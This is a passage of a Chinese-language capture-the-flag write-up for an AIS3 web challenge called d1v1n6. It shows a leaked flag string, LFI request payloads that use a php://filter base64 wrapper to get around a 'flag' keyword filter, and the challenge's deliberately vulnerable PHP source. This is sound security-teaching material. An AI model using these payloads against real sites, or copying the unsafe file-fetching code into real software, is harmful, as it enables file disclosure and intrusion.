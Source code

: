 ```js
// AIS3{4r3_y0u_4_fr0n73nd_g33k?}
```

## d1v1n6 (Web, 115 Solves)

首先，`?path=hint.txt` 是在提示有 LFI 漏洞可以用，所以正常來說會想讀 `index.php` 來看。

```
/?path=index.php
```

但是因為有擋關鍵字 "flag"，所以要用 PHP filter 繞過（base64 或 rot13 都可）：

```
/?path=php://filter/convert.base64-encode/resource=index.php
```

成功的話會拿到原始碼：

```php
<?php

    if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {

        // show path of the flag
        die($_ENV['FLAG_HINT']);
    }


    if ($path = @$_GET['path']) {
        $path = trim($path);

        if (preg_match('/https?:\/\/([^s\/]+)/i', $path, $g)) {
            // resolve ip address
            $ip = gethostbyname($g[1]);

            // no local request
            if ($ip == '127.0.0.1' || $ip == '0.0.0.0')
                die('Do not request to localhost!');
        }

        // no flag in path
        $path = preg_replace('/flag/i', '', $path);

        if ($content = @file_get_contents($path, FALSE, NULL, 0, 1000)) {

            // no flag in content
            if (preg_match('/flag/i', $content)) {
                die('Detected "flag" in content. Not showing!');
            }

            die($content);
        }

        die('No content or failed to get content.');
    }

?>
<h2>d1v1n6</h2>
<a href="?path=hint.txt">Hint</a>

```
